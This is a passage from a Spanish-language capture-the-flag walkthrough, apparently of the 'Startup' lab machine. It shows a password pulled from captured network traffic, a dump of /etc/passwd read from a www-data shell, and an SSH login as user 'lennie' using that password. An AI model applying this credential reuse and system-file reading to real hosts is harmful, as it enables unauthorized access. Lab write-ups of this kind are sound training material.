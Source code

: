 ```bash
E..G..@.@............\....../5.|...@.......
*.J.*.@ c4ntg3t3n0ughsp1c3
...
```

Vemos una contraseña utilizar para ejecutar el comando `sudo -l` del usuario `www-data`; sin embargo, al autenticación es incorrecta y podría ser que dicha contraseña sea de otro usuario.

```bash
www-data@startup:/incidents$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
lennie:x:1002:1002::/home/lennie:
ftpsecure:x:1003:1003::/home/ftpsecure:
www-data@startup:/incidents$ 
```

Podríamos tratar de acceder como el usuario **lennie** y la contraseña que encontramos **c4ntg3t3n0ughsp1c3** por medio de ssh:

```bash
❯ ssh lennie@10.10.111.163
The authenticity of host '10.10.111.163 (10.10.111.163)' can't be established.
ECDSA key fingerprint is SHA256:xXyVGVy1l27TVcjIQj2kgTTmLYN6WCB93YJB3mAHLkA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.111.163' (ECDSA) to the list of known hosts.
lennie@10.10.111.163's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

44 packages can be updated.
30 updates are security updates.
```